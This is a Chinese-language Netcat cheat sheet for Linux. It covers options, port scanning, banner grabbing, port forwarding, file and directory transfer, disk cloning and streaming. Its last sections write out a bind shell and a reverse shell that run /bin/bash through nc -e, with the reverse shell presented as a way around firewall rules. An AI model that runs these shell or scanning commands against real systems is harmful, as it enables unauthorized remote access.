 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux 命令
intro: 本速查表提供了在 Linux 和 Unix 上使用 Netcat 的各种方法。
plugins:
  - copyCode
---
```


## 入门 {.cols-5}

### 用法 {.col-span-2}

连接到任何位置的主机

```shell script
$ nc [选项] [主机] [端口]
```

监听传入连接

```shell script
$ nc -lp 端口 [主机] [端口]
```

### 选项示例 {.col-span-3 .row-span-2}

| 选项   | 描述                                   | 示例                                     |
| ------ | -------------------------------------- | ---------------------------------------- |
| `-h`   | nc -h                                  | 帮助                                     |
| `-z`   | nc -z 192.168.1.9 1-100                | 扫描主机或 IP 地址的端口                 |
| `-v`   | nc -zv 192.168.1.9 1-100               | 提供详细输出                             |
| `-n`   | nc -zn 192.168.1.9 1-100               | 通过禁用 DNS 解析进行快速扫描            |
| `-l`   | nc -lp 8000                            | TCP 监听模式 _(用于入站连接)_            |
| `-w`   | nc -w 180 192.168.1.9 8000             | 定义超时值                               |
| `-k`   | nc -kl 8000                            | 断开连接后继续监听                       |
| `-u`   | nc -u 192.168.1.9 8000                 | 使用 UDP 而不是 TCP                      |
| `-q`   | nc -q 1 192.168.1.9 8000               | 客户端在 EOF 后保持连接                  |
| `-4`   | nc -4 -l 8000                          | 仅 IPv4                                  |
| `-6`   | nc -6 -l 8000                          | 仅 IPv6                                  |

### 聊天客户端-服务器 {.col-span-2}

服务器 (192.168.1.9)

```shell script
$ nc -lv 8000
```

客户端

```shell script
$ nc 192.168.1.9 8000
```

## Netcat 示例

### Banner抓取

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

或

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### 端口扫描

扫描 21 到 25 之间的端口

```shell script
$ nc -zvn 192.168.1.1 21-25
```

扫描端口 22、3306 和 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### 代理和端口转发

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

或

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

创建一个从一个本地端口到另一个本地端口的隧道

### 下载文件

服务器 (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

客户端

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

假设您想将文件 “file.txt” 从服务器 A 传输到客户端 B。

### 上传文件

服务器 (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

客户端

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

假设您想将文件 “file.txt” 从客户端 B 传输到服务器 A：

### 目录传输

服务器 (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

客户端

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

假设您想通过网络将目录从 A 传输到 B。

### 加密传输 {.col-span-2}

服务器 (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

客户端

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

在通过网络传输数据之前对其进行加密

### 克隆

服务器 (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

客户端

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

克隆 Linux PC 非常简单。假设您的系统磁盘是 /dev/sda

### 视频流

服务器 (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

客户端

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

使用 netcat 进行视频流传输

### 远程 Shell

服务器 (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

客户端

```shell script
$ nc 192.168.1.9 8000
```

我们已经使用 telnet 和 ssh 实现了远程 Shell，但是如果它们没有安装并且我们没有权限安装它们，那么我们也可以使用 netcat 创建远程 Shell。

### 反向 Shell

服务器 (192.168.1.9)

```shell script
$ nc -lv 8000
```

客户端

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

反向 Shell 通常用于绕过防火墙限制，例如阻止入站连接
